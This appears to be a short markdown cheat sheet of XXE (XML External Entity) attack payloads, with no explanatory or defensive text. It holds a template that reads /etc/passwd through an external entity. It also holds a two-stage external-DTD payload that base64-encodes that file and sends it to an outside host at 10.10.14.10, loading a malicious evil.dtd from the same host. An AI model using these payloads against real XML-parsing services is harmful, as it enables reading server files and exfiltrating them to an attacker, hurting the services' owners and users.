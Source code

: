 ```yaml
---
title: "XXE (XML External Entity)"
date: 2024-7-5
tags: ["xxe", "xml", "dtd", "web"]
---
```


---
### XXE Template

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY data SYSTEM "/etc/passwd">]>
<product>
    <id>&data;</id>
    <price></price>
</product>
```

### External DTD (2 stage)

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://10.10.14.10/data?%data;'>">
```

<br>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % bar SYSTEM "http://10.10.14.10/evil.dtd">
        %bar;
        %eval;
]>
<product>
    <id>&exfil;</id>
    <price></price>
</product>
```

<br>
